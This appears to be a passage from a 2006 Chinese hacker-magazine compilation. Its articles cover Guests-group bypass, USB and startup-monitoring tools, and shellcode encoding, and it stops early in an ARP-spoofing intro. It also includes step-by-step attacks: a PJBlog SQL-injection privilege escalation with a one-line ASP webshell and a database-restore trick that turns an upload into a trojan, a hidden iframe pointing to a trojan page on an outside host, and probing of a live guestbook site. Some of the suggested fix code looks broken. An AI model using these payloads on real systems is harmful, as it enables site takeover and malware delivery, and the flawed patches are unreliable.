先把“拨号和虚拟专用网络设置”选择“始终拨默认连接”，然后点右面的“设置”。在拨号设置里面输入用户名和密码，然后“确定”。现在回到 IE 中去，输入一个网址后会弹出一个拨号连接，如图4，我们点“连接”，呵呵，已经连上网了！

关于突破 GUESTS 组限制网络连接还有一个简单的方法，利用“网际快车”。打开“网际快车”之后，选择“工具”，选择“选项”，在选项里选择“拨号网络”，如图5，在“拨号设置”下选择自己创建的连接，然后输入用户名和密码后确定，最后点击图5里那个“电话”小图标就可以连接网络了。

现在我们完全突破了 GUESTS 组的所有限制，和正常的用户基本没有什么区别了，这样大家就都可以正常地使用 Windows 了。提醒大家一下，要运行 exe 可执行文件，得先把 exe 改成 com 才能运行，然后可以给 com 文件创建一个快捷方式就可以快速地使用了。

如果中了病毒不用担心，把这个用户删除了，再重新建立一个又继续使用了！虽然麻烦了点，但是为了让自己的电脑不受病毒的侵扰，还是觉得值得的！


现在的 USB 存储设备（如 U 盘、MP3、移动硬盘等）是非常流行的，通过电脑的 USB 接口拷贝数据，不仅速度快、操作方便，而且存储也更加可靠。不过，你有没有想到过，在你不经意的短时间离开时，你电脑上的重要数据也有可能会被别人从 USB 端口拷贝出去。我们能否对电脑的 USB 接口进行灵活有效的控制呢？可以使用“USB 安全存储专家”（以下简称为 USSE）来解决这个问题。

- 1. 阻止所有 USB 移动存储设备  
进入“USB 存储安全设置”→“安全设置”窗口，点击“确定”进入如图1所示的窗口，勾选“启用 USB 存储设备过滤”，再选择“禁止读写”就可以了。注意使用该功能时，对当前插入的 USB 存储设备不能生效，你需要重新插入 USB 存储设备才行。另外，就是对于非 USB 设备不起作用！要关闭该功能只要去掉“启用 USB 存储设备过滤”选择即可。

- 2. 使 USB 存储设备只读  
设置成 USB 存储设备只读后，就会让所有插入的 USB 存储设备只能读出不能写入，从而避免数据泄露。可在“USB 存储安全设置”中启用相关选项；若要关闭，可取消对应勾选。


- 3. 使用“指纹识别”  
“指纹识别”用于限制其他用户的 USB 存储设备使用，同时允许本人正常使用，无需反复切换过滤设置。  
  - **写入指纹**：进入“USB 存储安全设置→高级设置”，连接设备并点击“写入指纹”，根据执行结果提示完成插拔操作。  
  - **启用指纹识别**：在主界面勾选“启用指纹识别”，并设置未通过识别时的处理方式（如禁止读写或只读）。需要停用时取消勾选即可。

> 小提示：若 USB 设备插入后长时间无响应，可尝试重启后再使用（文中提示为软件已知问题）。

- 4. 使用“内部保密标志”  
“内部保密”可使 USB 存储设备在普通环境下不可正常使用，以防数据泄露；需要恢复时可执行“清除内部标志”。右栏补充说明了写入/清除内部标志的使用步骤及注意事项。

# 大内密探 WinPatrol

文章转入 WinPatrol 主题，介绍其用于监控系统后台项目、对抗流氓软件与恶意自启动项的用途，并引出后续功能演示。


## 才艺展示一：启动管理

通过 WinPatrol 可检查启动项身份信息与来源，必要时进行删除、禁用、添加等操作；文中提示可通过右键菜单执行相关管理功能。


## 才艺展示二：浏览器辅助管理

这就要说到软件的安装绑定了，像什么“3721 助手”、“百度搜吧”、“Google Bar”……都往浏览器脸上贴，弄得浏览器好没面子。可以卸载的倒还好说，可总有些“无赖”要费很大的力气才能赶走。这些“无赖”就交给 WinPatrol 处理吧。同样可以查看信息、删除和监视。想在浏览器脸上贴，先问问 WinPatrol 再说吧，如图4。


## 才艺展示三：系统服务管理

在这方面搞鬼的只有木马、病毒之类的，当然还包括恶意程序。注册成系统服务也就罢了，有的甚至偷梁换柱（即把原有的系统服务删除，并冒充一个和原系统服务一样名称和路径的系统服务）。WinPatrol 可以轻松管理这里的一切，管理方式和系统自带的服务程序差不多。一切企图成为系统服务的，WinPatrol 都会弹出一个询问窗口，在此窗口上清清楚楚地显示了此程序的信息。点“否”就可以阻止程序注册成为系统服务。

如果你对 Windows 自带的系统服务不太了解，并且想看看是否有其他程序注册成为系统服务，就点“隐藏所有 Microsoft 服务”。现在显示的都是后注册的系统服务，你可以选择“自动”、“禁用”、“启动”来管理，如图5。


## 才艺展示四：进程管理

WinPatrol 会显示当前系统运行的所有进程，此功能可以有效地结束木马、病毒或者可疑程序在爱机中运行，这个功能大家都很熟悉了，这里就不过多介绍了。

## 才艺展示五：Cookies 管理

管好自己的“小甜饼”，小心那些“老鼠”来偷吃哦。Cookies 也能泄漏个人的网络信息。当你登录一个论坛时，选择保存“一天”“一个月”“一年”都会在 Cookies 里留下痕迹。如果你登录网络银行，防护做得不好的话，就会不明不白地少了 N 多钱！

在“添加”左边的文本框输入你要在 Cookies 中筛选的信息后，再点“添加”，程序就会自动筛选 Cookies 了。WinPatrol 的保密措施会让你高枕无忧，如图6。如果你想查看当前爱机上的 Cookies，点“查看 Cookies”，如图7中显示的是登录论坛时留下的 Cookies。


## 才艺展示六：文件关联管理

有些软件安装后会关联和它相关的文件，这样到最后文件关联改得乱七八糟。想手动恢复吧，也是一件很痛苦的事情。有些木马程序喜欢关联一些文件，最喜欢关联的就属 TXT 文本文件了，当你打开一个文本文件，说不定就触发机关运行了木马或者恶意程序！这对于爱机的危害也是很大的！

有 WinPatrol 管理文件关联就不再是一件痛苦的事情了。首先显示的是目前的文件关联，如果你对哪个关联上的文件不太了解或找不到也没关系，在弹出的窗口中点“运行”就会知道了。如果你想添加某个关联，按下“添加”，输入扩展名后再点“添加”，程序就会自动寻找和它关联的程序。添加格式为“.XXX”（如添加 ISO 镜像文件，则为 .iso）。如图8，图9为 WinPatrol 监视到文件关联、询问是否更改文件关联的窗口。


PJBlog，一款不错的博客程序，尤其是标题中的那句话：“创造机会的人总是比等待机会的人聪明得多”，多么富有哲理。俺可不想当怨妇，那就给自己创造一次机会吧！*^_^*

# 初探虚实


按照以往的思路，先查看提交参数，搜寻注入漏洞，却发现提交的参数大多被函数 CheckStr() 过滤。经过一番查找，在 Function.asp 中找到了这个自定义的函数。

```asp
Function CheckStr(byVal ChkStr)
  ' 检查字符串
  Dim Str: Str=ChkStr
  Str = Replace(Str, "&", "&amp;")
  Str = Replace(Str, "'", "&#39;")
  Str = Replace(Str, "select", "sel&#101;ct")
  Str = Replace(Str, "join", "jo&#105;n")
  Str = Replace(Str, "union", "un&#105;on")
  Str = Replace(Str, "where", "wh&#101;re")
  Str = Replace(Str, "insert", "ins&#101;rt")
  Str = Replace(Str, "delete", "del&#101;te")
  Str = Replace(Str, "update", "up&#100;ate")
  Str = Replace(Str, "like", "lik&#101;")
  Str = Replace(Str, "drop", "dro&#112;")
  Str = Replace(Str, "create", "cr&#101;ate")
  Str = Replace(Str, "modify", "mod&#105;fy")
  Str = Replace(Str, "rename", "ren&#097;me")
  Str = Replace(Str, "alter", "alt&#101;r")
  Str = Replace(Str, "cast", "ca&#115;t")
  CheckStr=Str
End Function
```

```asp
username=trim(CheckStr(request.form("username")))
Oldpassword=trim(CheckStr(request.form("Oldpassword")))
password=trim(CheckStr(request.form("password")))
Confirmpassword=trim(CheckStr(request.form("Confirmpassword")))
Gender=CheckStr(request.form("Gender"))
email=trim(CheckStr(request.form("email")))
homepage=trim(checkURL(CheckStr(request.form("homepage"))))
QQ=CheckStr(request.form("QQ"))
if request.form("hiddenEmail")=1 then
  HideEmail=true
else
  HideEmail=false
end if
```

中间是一些字段长度或类型的验证。

```asp
Conn.Execute("Update blog_member set mem_Sex='"&Gender&"', mem_Email='"&email&"', mem_HideEmail='"&HideEmail&"', mem_HomePage='"&homepage&"', mem_QQ='"&QQ&"' where mem_Name='"&memName&"'")
```

不难看出，程序自定义的 CheckStr() 函数过滤了“&”“'”及一部分 SQL 命令，看起来注入这条路是不通了。接着又看了一下上传所涉及 ASP 页的源码，文件名是按日期随机生成，扩展名经过了几层判断，也算滴水不漏。

代码对“hiddenEmail”“username”“Oldpassword”“password”“Confirmpassword”“email”做了验证，还对“QQ”“homepage”“Gender”做了处理。若这些字段在放入 SQL 时未使用引号，可能就是可利用点。尤其“QQ”“homepage”用了单引号，而“Gender”（性别）没有再加过滤，说明其约束可能依赖提交值。

# 三、新思歧风

在本地搭建 PJBlog 系统，申请了名为“5200”的用户。测试发现管理员与普通用户信息同在 `Blog_Member` 表中，权限字段是 `mem_Status`，其中 `SupAdmin` 表示管理员，`Member` 表示普通用户。


对管理员与用户信息共存一表的利用方式，就是尝试修改权限字段。继续审查修改用户资料页面 `Member.asp` 的源码，发现可疑点。

```asp
<% ' function SaveMem  Member.asp 文件部分源码
dim ReInfo
' username, Oldpassword, password, Confirmpassword,
' Gender, email, homepage, QQ, HideEmail, checkUser
ReInfo=Array("错误信息", "", "MessageIcon")
```

使用 5200 登录后，进入 “User Panel” 下“修改个人资料”，查看源文件可见“性别”项对应单选：保密、男、女。

```html
<strong>性 别</strong></td><td align="left" ...>
<input name="Gender" type="radio" value="0" checked/>保密
<input name="Gender" type="radio" value="1"/>男
<input name="Gender" type="radio" value="2"/>女
```

由此可知 `Gender` 正常值为 0/1/2，而前面的 `CheckStr()` 未过滤逗号与等号等符号，可继续尝试通过该参数构造更新语句并影响用户类型字段。

文中随后给出思路：修改“修改用户信息”页面提交目标与性别字段输入形式，通过构造请求将后续语句拼接到更新参数中，以实现权限字段变更。

第二，把 xiugai.txt 更改扩展名为 htm，用 IE 打开，如图2。填入旧密码，然后在性别处填入 `0,mem_Status='SupAdmin'`，逗号用于分隔更新字段。因为 `mem_Status` 是文本字段，提交内容需用引号包裹。


第三，点击“修改资料”，如图3成功修改。


重新登录，再看当前“5200”用户的 User Panel，如图4，其中有了“系统管理”，即从用户升级为管理员。随后通过后台管理继续提权。


## 三、总结思路

文中总结：后台权限只是一个阶段，后续尝试更高权限。在“权限”相关位置尝试上传可执行类型失败，提示“文件格式非法”。排查后发现上传限制在 `Function.asp` 中通过字符串替换过滤扩展名。

```asp
Function FixName(UpFileExt)
If IsEmpty(UpFileExt) Then Exit Function
FixName = UCase(UpFileExt)
FixName = Replace(FixName,Chr(0),"")
FixName = Replace(FixName,"'","")
FixName = Replace(FixName,"ASP","")
FixName = Replace(FixName,"ASA","")
FixName = Replace(FixName,"ASPX","")
FixName = Replace(FixName,"CER","")
FixName = Replace(FixName,"CDX","")
FixName = Replace(FixName,"HTR","")
End Function
```

继续分析 PJBlog 管理功能，发现可在“界面与插件”→“设置模块”中进行模块编辑，如图5。每个模块后有“编辑 ASP 代码”选项。


起初写入木马出现乱码（图7），测试后改为一句话木马：`<%execute request("1")%>`，保存到 `Plugins.asp`。


随后本地提交 HTM，Action 指向 `plugins.asp` 网络路径。利用一句话木马执行 ASP 写文件，成功生成并访问 `jmup.asp`（图8）。文中还提到 IE 中可能出现“Save UnSuccess!”及其规避方法。


获得 ASP 木马后权限提升完成。删除新建模块时需先清空模块中的 ASP 代码并保存，再回到模块列表删除，以免 `Plugins.asp` 中残留代码。

## 四、另类突破

# 黑客研究院

有利也有弊。但在 PJBlog 中，如果是把数据库改为 Asp 格式，那就是弊大于利了，为什么这样说，大家继续向下看。

使用 5200 用户登录，进入后台管理页面，打开“数据库及附件”管理页，如图9，显示了数据库的物理地址及名称。


图9

在一些 ASP 程序中的数据库管理“备份”和“还原”项目中，一般设有文本输入框，可以在其中输入要备份（还原）的数据库路径及名称，作为（还原）文件夹和备份（还原）文件名。由于可以输入数据，就让一些文件蒙混过关，也就造成了数据库管理的不安全性。

而 PJBlog 的数据库管理中，没有可输入的地方，压缩、备份、恢复、删除等一系列数据库操作，只需点一点鼠标即可完成，一切都是设定好的，但这样就安全吗？

在看了 ConContent.asp 中关于数据库的那段代码后，发现“还原数据库”代码段中有一句代码：`AccessSource=Request.QueryString("source")`。这里的 source 参数是获取程序提交的备份数据库路径及名称，只要把提交的值改为别的值，手动提交，不就可以把图片等格式的文件恢复成数据库了，当然这也就是 PJBlog 数据库格式为 Asp 时弊大于利的原因。

- 1. 备份数据库：点击“备份”，得到当前数据库的一个备份，备份数据库名称是由“Backup_”+“年月日”随机生成的数字组成，如：`Backup_20050806201837.mbk`。
- 2. 还原数据库：在“还原数据库”链接属性中可见 URL，如：`...ConContent.asp?Fmenu=SQLFile&do=Restore&source=backup/Backup_20050806201837.mbk`，参数 `source` 暴露了备份文件路径。
- 3. 还原指定文件：先上传一个改扩展名的 asp 文件，上传后可得到保存路径及名称（如 `attachments\month_0508\w200586144240.jpg`），再将 URL 中 `source` 改为该路径尝试还原。

要注意的是，在还原数据库之前，一定要先备份一下原数据库，以便在获取权限后恢复网站数据库。OK，现在把 URL 地址更改为指向附件路径并提交后，可成功还原，导致网站数据库变为木马 Asp 文件。


图10


图11

# 五、防患未然

在网络上，有相当一部分使用 PJBlog 程序的站点。对于用户提权漏洞，在写稿之前，已用邮件通知 PJBlog 管理员。对于上面所提到的一些漏洞，在这里先给出我个人的一点修补建议。

- 1. **用户提权**：原因在于忽略了“性别”单选框也可提交数据，导致过滤不严。可在 SQL 语句中对 `mem_Sex` 参数进行更严格的拼接与过滤。
- 2. **设置模块**：在“编辑 ASP 代码”功能中，建议取消直接生成 asp 代码能力（如在 `ConContent.asp` 中屏蔽 `WriteASP` 相关语句，或修改 `ASPCode` 提交字段）。
- 3. **数据库还原**：对 `AccessSource=Request.QueryString("source")` 参数增加过滤逻辑，限制 `/`、`\` 等路径字符，避免任意路径恢复。

```asp
begin
if instr(AccessSource,"/")>0 or instr(AccessSource,"\\")>0 then
  response.write "<script>alert('错误路径');history.back()</script>"
  response.end
end if
AccessSource=backup/"&AccessSource
end
```

然后，再找到“数据库备份列表”代码中涉及“删除”及“还原数据库”链接（`<a href>`）的语句，删除 source 值中的 `backup/`，使提交参数不带路径，配合前述过滤语句可提高安全性。

# 后记

前些天，看到 L-Blog V1.08（SE）Access 版源码，发现也存在同样的用户提权漏洞。巧的是，PJBLOG 和 L-Blog 所用数据库结构较为相近，存放管理员及用户名的表及字段名也类似，因此构造表单的方法也相近。L-Blog 的后台过滤虽然利用了本地提交地址限制后台管理级别，但改包抓取仍可能提权。

> 声明：本文只用于技术交流，严禁用于非法途径，否则引发的一切后果自负。

# Shellcode 之菜鸟学编程

孟方明（-273℃@EST）& 朱丽兰

## 一、准备工作

对于缓冲区溢出，相信很多读者朋友都已经耳熟能详了。在缓冲区溢出中有一项非常关键的技术那就是 Shellcode 的编写。Shellcode 负责溢出后功能的实现，从功能上分为正向绑定 Shellcode、反向连接 Shellcode、端口复用 Shellcode、线程插入 Shellcode、下载执行 Shellcode、添加用户 Shellcode 等等。单从分类上看，就知道 Shellcode 编写是一种非常复杂的技术，对于编写人员的综合技术素质要求也很高。Shellcode 的编写还要根据应用环境的不同进行专门的修改，比如防止出现“\x00”造成 Shellcode 被截断，以及要规避一些对字符串有特殊要求的机制等等。本文并不打算给大家讲解某个功能的 Shellcode 的实现，而是通过实际的操作给大家介绍一些基本的 Shellcode 编码技术。

有兴趣的朋友可以准备好下面的工具：Ollydbg v1.10（调试跟踪的利器）以及 Dev-C++（C++ 编译器）。


## 二、实战演练

打开 Dev-C++，选择 “file” 菜单 → “New” → “source file” 新建一个源文件，然后把下面的代码输入进去。

```cpp
#include <iostream.h>
#include <stdlib.h>
#include <conio.h>
#include <stdio.h>

char *user32 = "user32";
char *shellcode = "\x90"; // 这里就是我们调试 shellcode 的地方
int func() // 故意制造一个存在缓冲区溢出的函数
{
    char arg1[15];
    cout << "please input the variable value";
    cin >> arg1;
    cout << arg1 << endl; // 危险的代码
    return 0;
}

int main()
{
    func();
    getchar();
    return 0;
}
```


代码很短，关键的地方我都做了注释。代码中的 Shellcode 变量就是存放 Shellcode 代码的地方，Shellcode 并不完全等同于汇编代码，它是汇编代码的 16 进制表示形式。由于我们只是给大家介绍一些 Shellcode 的编码技巧，而并不要求实现什么功能，因此本文我们就写一个弹出 Message Box 的 Shellcode 吧！

输入上述代码后，将文件保存为 test.cpp，然后按 Ctrl + F9 组合键编译程序。编译成功后会在源文件同目录下生成 test.exe。用 OD 打开它，如图1所示。在代码窗口中向下查找，直到找到如图2所示的代码处。看到框里的内容了吗？这就是代码中定义的 user32 和 Shellcode 变量的内容（nop 就是 “\x90”）。把这两处地址记下来备用，继续向下拉动代码窗口滑动条，直到找到如图3所示的代码处。

我们的弹出式 Shellcode 就在这片 dead space 里写。要想实现弹出窗口，只需要调用 user32.dll 中导出的 MessageBox 函数，MessageBox 函数的原型如下。

```c
int MessageBox(
    HWND   hWnd,    // handle of owner window
    LPCTSTR lpText, // address of text in message box
    LPCTSTR lpCaption, // address of title of message box
    UINT   uType    // style of message box
);
```

# 黑客研究院

使用这个函数的前提就是 `user32.dll` 必须被程序加载。在 OD 中可看到程序已加载 `msvcrt.dll`、`kernel32.dll`、`ntdll.dll`，但尚未加载 `user32.dll`，因此在调用 `MessageBox` 前要先调用 `LoadLibrary` 加载 `user32.dll`。`LoadLibrary` 位于 `kernel32.dll` 中，且只有一个参数（待加载 DLL 名称）。

回到 OD 汇编窗口，在 “dead space” 区域输入：`push 00401290`，如图 4。


解释 `push 00401290`：地址中内容是字符串 `"user32"`。随后调用：`Call kernel32.LoadLibraryA` 来加载 `user32.dll`。接着构造 `MessageBox` 的调用参数。

```asm
Push 0
Push 00401290
Push 00401290
Push 0
```

以上四行是 `MessageBox` 的四个参数；若此时直接 `call user32.MessageBoxA` 会报错，因为 `user32.dll` 尚未完成加载（见图 5）。


解决方式：先执行 `00433AF5` 处指令使 `user32.dll` 加载完成；可在 `00433AF0`（`push test.00401290`）处新建 EIP 后按 F8 单步（见图 6）。


继续比较多条 `call kernel32.LoadLibraryA` 指令的机器码，虽然指令相同但机器码可能不同（相对地址导致）。


在 Win32 汇编中，函数返回值通常在 EAX。执行 `LoadLibraryA` 后，EAX 即 `user32.dll` 基址。调用 `MessageBoxA` 时可用“基址 + 偏移”得到绝对地址。

| 地址 | 段 | 类型 | 符号 |
|---|---|---|---|
| 77E16706 | .text | 导出 | MessageBeep |
| 77E18098 | .text | 导出 | MessageBoxA |
| 77E1880C | .text | 导出 | MessageBoxExA |

在 OD 中搜索 `user32` 导出表，定位 `MessageBoxA` 绝对地址（图 8），并用基址计算偏移：`77E18098 - 77DF0000 = 28098`。

```asm
Add eax,28098    ; 得到 MessageBoxA 的绝对地址
Call eax         ; 调用 MessageBoxA
```

随后讨论 Shellcode 中避免 `\x00` 的问题：如在字符串函数环境下会被截断。可通过等价指令改写立即数，避免字节中出现 `00`。

```asm
Mov ebx,515123a1
Sub ebx,11111111
Push ebx
```

同理，`push 0` 可改写为清零寄存器后入栈。

```asm
Xor ecx,ecx   ; 把 ecx 清零
Push ecx      ; 压入 ecx 的值（相当于压入 0）
```

```asm
00433AF? ...
push test.00401290
call KERNEL32.LoadLibraryA
...
call eax
```

```asm
00433AF0 68 90124000  push test.00401290
00433AF5 E8 05C0A377  call KERNEL32.LoadLibraryA
...
00433B0D FFD0         call eax
```

图 9

下面又是逆着两条同第一条指令相同的指令，直接 push 两次 ebx 就可以了（ebx 依然保存着 `user32` 变量的地址）。修改后的完整代码如下。

```asm
00433B20  BB A1235101   mov ebx,15123A1
00433B25  81EB 11111101 sub ebx,1111111
00433B2B  53            push ebx
00433B2C  E8 9ECAA377   call KERNEL32.LoadLibraryA
00433B31  33C9          xor ecx,ecx
00433B33  51            push ecx
00433B34  53            push ebx
00433B35  53            push ebx
00433B36  51            push ecx
00433B37  05 98800200   add eax,28098
00433B3C  FFD0          call eax
```

倒数第二条指令好像还有一处 `\x00`，依然采用前面的方法，然后把倒数第二条指令改成如下指令。

```asm
Add eax,01391a9
Sub eax,01111111
```

搞定！来看下我们的最终杰作吧！

```asm
00433B20  BB A1235101   mov ebx,15123A1
00433B25  81EB 11111101 sub ebx,1111111
...
00433B37  05 A9911301   add eax,11391A9
00433B3C  2D 11111101   sub eax,1111111
00433B41  FFD0          call eax
```

所有的 `\x00` 都被干掉了。但是我们的杰作似乎还有点瑕疵……还需要把 `call KERNEL32.LoadLibraryA` 也改成寄存器间接调用。

```asm
00433AF0  BB A1235101   mov ebx,15123A1
00433AF5  81EB 11111101 sub ebx,1111111
00433AFB  53            push ebx
00433AFC  B8 CF05E777   mov eax,KERNEL32.LoadLibraryA
00433B01  FFD0          call eax
...
```

```asm
00433B0E 2D 11111101  sub eax,1111111
00433B13 FFD0         call eax
```

下面我们就来采集我们的 Shellcode 吧，最终结果如下：`\xBB\xA1\x23...`，把这些代码复制到 `test.cpp` 中的 `Shellcode` 变量里，然后编译，如图 10。

```cpp
#include <stdio.h>
#include <conio.h>
#include <stdlib.h>

char *user32="user32";
char *shellcode="\x90...";

int func(){ /* ... */ }
int main(){ func(); getchar(); return 0; }
```


图 10

编译好后再用 OD 打开 `test.exe`，找到我们添加的 Shellcode 处……如图 11。


图 11

我们这段 Shellcode 的起始地址是 `004012B0`……在 cmd 窗口下运行 `test.exe`，会出现如图 12 所示的报错。


图 12

把最后 4 个 a 改成 4 个 b 后再次溢出，得到的报错结果证明……然后去掉 ascii 字符替换，结果如图 13。


图 13

成功了吧！希望本文可以让读者朋友能从中学到点东西……（本文涉及的相关工具：OllyDbg v1.10、Dev-C++、含 shellcode 的 `test.exe` 等）。

# 黑客研究院

2006 合订本上卷


随着网上公布的脚本程序日益增多，各种各样的漏洞也随之而来。大多数都是因为没有对用户提交的字符进行过滤、变量没有初始化或者没有限制站外提交等造成的，这也使得注入方法灵活多变，让人防不胜防。本文要说的就是夜猫留言薄的跨站和注入漏洞，程序虽小，危害却很大。

初次看到这个程序是在朋友的一个站点上，整体看来程序做得很简洁。看了看版权：`ymGuestBook Version 2.0.1`。很熟悉吧，看前缀就知道是夜猫的程序了。可能很多朋友已经想到了当年的夜猫下载系统，那可是被当作 PHP 注入的范例了。那么，这个程序会不会犯同样的错误呢？我们来做一个黑盒测试就知道了！

```php
if($_POST['username']=='' || $_POST['pagetext']==''){
  echo "<a href=javascript:history.back(1)>昵称和留言内容不能为空,点击这里返回</a>\n";
}else{
  post($_POST['iconid'],$_POST['username'],$_POST['touser'],$_POST['sex'],$_POST['comefrom'],$_POST['email'],$_POST['qq'],$_POST['homepage'],$_POST['pagetext'],$_SERVER['HTTP_USER_AGENT'],$_SERVER['REMOTE_ADDR']);
}
?>
```

程序先判断用户名和留言内容是否为空，如不为空则通过 `post()` 函数进行提交。这里会看到程序没有对我们提交的变量做任何过滤就直接引用了。

```php
function post($iconid,$username,$touser,$sex,$comefrom,$email,$qq,$homepage,$pagetext,$useros,$ipaddress){
  global $dbname,$ymcity_gb_table,$ymcity_icon_table;
  $dateline = time();
  if($iconid>=0){
    $iconsql = "SELECT iconpath FROM $ymcity_icon_table WHERE iconid='$iconid'";
    $iconresult = mysql_db_query($dbname,$iconsql);
    $iconrow = mysql_fetch_array($iconresult);
    $icon = $iconrow['iconpath'];
  }else{
    $icon='';
  }
  $sql = "INSERT INTO $ymcity_gb_table (icon,username,touser,sex,comefrom,email,qq,homepage,dateline,pagetext,useros,ipaddress) VALUES ('$icon','$username','$touser','$sex','$comefrom','$email','$qq','$homepage','$dateline','$pagetext','$useros','$ipaddress')";
  mysql_db_query($dbname,$sql) or die('留言发表失败!');
}
```

点击“我要留言”后到 `post.php`，看到这么多输入框，你会想到什么呢？对，就是写跨站！用户名、主页等地方都可以测试。我们直接在留言处写代码：`<script>alert('Hey!xY7!')</script>`，如图1。


图1

提交后我们回到主页看，代码成功执行，如图2。发现跨站漏洞！当然我们的目的不只是弹出提示框，构造提交表单也是趋势，因为这类程序管理员密码一般都没初始化。


图2

我们构造了一个 0 高 0 宽的 iframe：`<iframe src="http://www.hackerxfiles.net/muma.htm" height="0" width="0"></iframe>`，以便重定向到目标页面。更稳妥的方式是伪装成正常留言，避免被管理员立刻删除。

知其然还要知其所以然。继续看 `post.php` 可知，`post()` 函数未过滤输入字符，直接拼接 SQL 并写入数据库。这样当数据库输出留言内容时，恶意代码被浏览器解析，漏洞产生。另一个点是 `$iconid` 也可控：`SELECT iconpath FROM ... WHERE iconid='$iconid'`，可通过抓包改值后附加到 URL 继续利用注入点。

打开 `post.php`，这是我们提交留言的页面，代码如右侧所示。

可能大家看到这类隐藏变量都会很头疼，那有没有我们可以直接提交测试语句的变量呢？我们来看看回复页面 `reply.php` 是怎么写的，代码如下：

```php
<?
if (($_POST['gbid'] == '') || $_POST['password'] == '')
    echo "<a href=javascript:history.back(1)>密码不能为空，点击这里返回</a>";
else:
    reply($_POST['gbid'],$_POST['password'],$_POST['replyiconid'],$_POST['replyname'],$_POST['pagetext']);
endif;
?>
```

首先判断要回复的留言编号和密码是否为空，二者缺一不可，然后就用 `reply()` 函数进行提交，这里没有过滤 `$gbid` 变量。从上面代码我们可以大胆推出这个函数肯定也没有过滤，夜猫程序员的编程习惯我们已经分析出来了，呵呵，看看 `function.php` 中对 `reply()` 的定义吧，核心代码如下：

```php
$sql = "UPDATE $ymcity_gb_table SET
replyicon='$replyicon',replyname='$replyname',
replytext='$replytext' WHERE gbid='$gbid'";
mysql_db_query($dbname,$sql) or die('回复留言失败!');
```

没有过滤吧！我们就用这个注入漏洞去测试一下。用 google 搜索了一个使用夜猫留言簿的网站，可惜今天运气不在我这边，提交的单引号和 and 语句都被过滤了，很明显 `magic_quotes_gpc=ON`，这时我想到 `$gbid` 这个值应该是整型的，如果我们提交一个字符型的值，那也可以使 SQL 语句出错啊，我们提交看看，如图3。


怎么样？出错了吧，路径也出来了，不过这种情况就不能用 CASI 猜字段了。看到这个路径大家应该有印象吧！这个站点使用的是 APSERV 架构的，在 05 年 11 期的 X 上，十二少有篇文章就是通过 appserv 入侵的，appserv 整合了一套 PHP 站点环境。

可它的 phpMyAdmin 设置不当会造成任意用户随便登录，由于这套系统我也没有测试过这里就不多说了，我们来试试直接在网址后提交 `phpmyadmin`，就可顺利看到登录页面，如图4。我们在登录窗口输入“@”，密码为空后顺利登录，如图5。


并不是这种情况下登录后就有权限执行任何操作的，这里就算给大家一种思路吧，本文的重点也并不是入侵。根据以往的经验，凡是这种成套程序安装后都会有一个统一的安装目录，这里会不会泄露什么敏感信息？我们接着在网址后提交 `/appserv/` 看看，如图6。


一切尽在掌握中！不过里面似乎没有什么可利用的文件，appserv 的主页 `main.php` 被删除了，在里面翻到 `changelog.txt` 时我们得到这些信息，如图7。


最新的 appserv 包括了不少东西呢，可 MYSQL 是 3X 版本的，这样的话，这个站点就不支持 union 查询了，大家就别拿 CASI 欺负它了。由于本文主要是分析代码，上面这些入侵思路都是无意发现的，因此也就不再继续下去了，感兴趣的朋友可以找个类似的站点去进行测试。

下面我就来说说如何防范诸如此类的 PHP 注入程序。现在很多程序都存在类似的漏洞，修补方法可以通用的原因就是没有过滤用户提交的 HTML 代码或 script 代码，我们可以用 `htmlspecialchars()` 函数来过滤用户输入的文本。例如，夜猫就可以这样过滤：`htmlspecialchars($pagetext)`，这样就有效地防止了跨站攻击。

且，一般都是整型，所以我们可以用如下代码把 ID 整型化：

```php
<?php
if(is_number($iconid))
    $iconid=intval($iconid);
?>
```

```php
else
    $id=$_GET["id"];
?>
```

对于字符型变量，我们也可以用 `addslashes()` 函数进行过滤，即使 `magic_quotes_gpc=ON` 时也不会冲突，此外还可以将 `display_errors` 设为 `off`，关闭错误回显。

如果你还不放心你的程序，可以自己定义一个危险字符过滤函数，参考代码如下：

```php
function checkid($badid){
  return eregi("union|load_file|select|\\*|\.|\\'", $badid);
}

<?php
if (checkid($_GET['id']))
    exit('非法数据');
?>
```

这样我们就有效地阻止注入攻击了。还有最后一招，如果你忙于工作无暇顾及自己程序的安全而又不想让 google 成为他人入侵的帮凶，可以在根目录建立一个名为 `robots.txt` 的文件，输入以下内容：

```txt
User-agent: *
Disallow: /myguestbook/
Disallow: /include/
Disallow: /database/
```

至此，相信你的程序安全性已经有质的飞跃了，还是希望各位站长不要遗漏掉细小的环节，因为安全是个整体，较小的疏忽就可能导致你丢掉最大的权限。

# 校园网中的地址盗用与 Sniffer

现在许多高校都在努力建设着数字化的校园，而校园网已成了大学生生活中重要的一部分。由于 IPv4 协议下的地址缺乏及网络管理薄弱等方面的原因，网络中会出现用户的 IP 地址被盗用的现象。

传统应对策略基本上是建立在网络关键设备上（如交换机、路由器），个人用户大都无能为力。而当 IP 地址被盗用时，作为个人用户又如何应对呢？本文将探讨在高校校园网络中地址盗用的解决方案和 Sniffer 的相关应用。

说起 IP 地址被盗，很多用户首先想到的就是电脑屏幕右下方不断出现的 IP 冲突提示。文中先介绍校园网络环境、接入结构与常见盗用方式，再说明其对用户和管理带来的影响。

实际上，并非简单地改变 IP 地址就能达到盗用目的。很多情况下还要配合网络管理软件及地址解析机制，才能使流量被错误地导向盗用主机。

那么此类软件是如何达到目的的呢？简言之，主要是利用 ARP 协议进行地址欺骗。ARP（Address Resolution Protocol）是一种将 IP 地址转换成物理地址的协议。

ARP 协议属于链路层协议，在以太网中的数据帧必须知道目标主机的硬件地址才能发送。为了理解 ARP 协议的作用，文中分析了一个简单的 ping 底层过程，例如执行 `ping 192.168.1.51` 时会通过 ICMP 发送数据包。

- 应用程序构造数据包（如 ICMP 包）并提交给内核。
- 内核检查是否能够将 IP 地址转化为 MAC 地址，即查询本地 ARP 缓存。
- 若存在 IP-MAC 对应关系则直接发送；否则继续。
- 内核进行 ARP 广播，请求目标主机的 MAC 地址。
- 目标主机收到 ARP 请求后返回 ARP Reply。
- 本地获得目标主机的 IP-MAC 映射并写入 ARP 缓存。
- 内核将 IP 包封装到以太网帧并发送。

使用 `arp -a` 命令可以查看本地 ARP 缓存内容。执行本地 ping 命令后，ARP 缓存中会产生对应目标的 IP 记录；如果跨网段访问，也会出现网关的 IP-MAC 记录。

